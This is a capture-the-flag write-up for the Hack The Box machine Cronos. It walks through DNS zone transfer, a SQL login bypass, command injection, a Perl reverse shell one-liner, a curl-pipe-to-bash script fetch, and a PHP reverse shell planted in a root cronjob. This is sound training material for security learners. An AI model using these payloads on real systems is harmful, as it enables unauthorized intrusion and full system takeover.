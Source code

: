 # Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>

## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:
![Nmap Image](./images/cronos_nmap.png)

We have services running on port 22, 53 and 80. We'll check them in detail.

First, lets check the website running on port 80. 

![](./images/cronos_apacheDefault.png)

It just gives us a default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then we turn our attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided some information.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Next, Looked at `searchsploit` for any known exploits, spent some time trying them, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used below command:<br/>
    `dig @10.10.10.13 -x 10.10.10.13`<br/>

Below we can see, that the server responded:

![](./images/cronos_dig1.png)

Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>

Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(

<br/>
Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:

![](./images/cronos_dig.png)
Consequently, this revealed the admin portal -> <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below

![](./images/cronos_adminpanel.png)

<br/>
I tried basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`     worked for me.
    
We can see the request in Burp for the same
![](./images/cronos_authbypass.png)

<br/>

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.
![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory.<br/>Great! We have command execution.

Then i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>

![](./images/cronos_perlshell.png)

Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br/>

Below we can see, we get a session on our local machine <span id=green>:)</span>
![](./images/cronos_rshell1.png)

Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` <span id=green>flag</span>.

Next task: Priveldge escalation.
<br/>
<br/>

## Priveledge Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`<br/>
  Run this script on Server   : `$ curl http://10.10.14.7/linEnum.sh | bash`
  
![](./images/cronos_linEnum1.png)

<br/>
Spent some times time looking at the output, its a lot. Then came across something <span id=green>interesting:</span>

![](./images/cronos_linEnum1.png)

Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

<br/>
Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```
<br/>
Below is detail of steps performed to upload PHP webshell
![](./images/cronos_exploitation.png)

<br/>
Meanwhile, we set up a listener at port `4445`, and wait for shell to execute via cronjob.<br/>
After a minute, got the session and  read the root flag :)

![](./images/cronos_root.png)

<br/>
<span id=green>Cronos is Owned!!!</span>


<br/>

[<< Back](https://grey-fish.github.io/HTB/index.html)
